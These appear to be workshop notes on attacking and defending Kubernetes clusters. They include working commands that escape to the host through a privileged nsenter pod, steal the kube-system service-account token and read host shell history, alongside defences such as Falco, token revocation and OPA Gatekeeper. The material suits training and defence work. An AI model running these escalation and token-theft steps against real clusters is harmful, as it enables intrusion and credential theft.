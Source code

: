 # Attacking and Defending K8s clusters


https://securekubernetes.com/




id 
uname -a

cat /etc/lsb-release /etc/redhat-release


kubectl auth can-i --list

kubectl auth can-i create pods


Defense


kubectl top node

k top pod --all-namespaces


## Get all images running in the cluster

kubectl get pods --all-namespaces -o jsonpath="{..image}" | tr -s '[[:space:]]' '\n' | sort -u


## Get pods running as default service account

kubectl get pods -n prd -o jsonpath='{range .items[?(@.spec.serviceAccountName=="default")]}{.metadata.name}{" "}{.spec.serviceAccountName}{"\n"}{end}'


## Security example apply

kubectl apply -f https://raw.githubusercontent.com/securekubernetes/securekubernetes/master/manifests/security.yml

Adds Falco

### View Falco Logs

kubectl logs -n falco $(kubectl get pod -n falco -l app=falco -o=name) -f


### Falco Rules

kubectl get configmaps -n falco falco-config -o json | jq -r '.data."falco_rules.yaml"' | grep rule:

kubectl get configmaps -n falco falco-config -o json | jq -r '.data."k8s_audit_rules.yaml"' | grep rule:

## Deploy a pod that gives host access
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'

This spawns a container in the host namespace - a container without walls


id; uname -a; cat /etc/lsb-release /etc/redhat-release; ps -ef; env | grep -i kube

This verifies you are root on the host

docker container ls


## Getting the kubelet config

ps -ef | grep kubelet

kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system

### Get the kubesystem default token

TOKEN=$(for i in `mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'`; do if [ `cat $i` = 'kube-system' ]; then cat `echo $i | sed 's/.namespace$/\/token/'`; break; fi; done)
echo -e "\n\nYou'll want to copy this for later:\n\nTOKEN=\"$TOKEN\""


kubectl --token "$TOKEN" --insecure-skip-tls-verify --server=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT auth can-i get secrets --all-namespaces





## 
We might want to revoke that serviceaccount token:


kubectl -n dev delete $(kubectl -n dev get secret -o name| grep default)
And perhaps disable the automatic mounting of serviceaccount tokens by setting automountServiceAccountToken: false in the pod spec, if the dashboard doesn't need it.

automountServiceAccountToken: false



The attacker ran a privileged container, which they shouldn't have been able to. So, we should block that. I remember a talk at KubeCon this week about Open-Policy-Agent/Gatekeeper that gets deployed as an admission controller.


## Setup OPA Gateway

kubectl apply -f https://raw.githubusercontent.com/securekubernetes/securekubernetes/master/manifests/security2.yaml
sleep 10
kubectl apply -f https://raw.githubusercontent.com/securekubernetes/securekubernetes/master/manifests/security2-policies.yaml
sleep 15 # Allow time for the Dynamic Admission Controller to take effect



The policies

https://raw.githubusercontent.com/securekubernetes/securekubernetes/master/manifests/security2.yaml


https://raw.githubusercontent.com/securekubernetes/securekubernetes/master/manifests/security2-policies.yaml


container created last


docker constainer ls --latest


chroot /rootfs /bin/bash

cd /home/kubernetes
ls

cat .bash_history

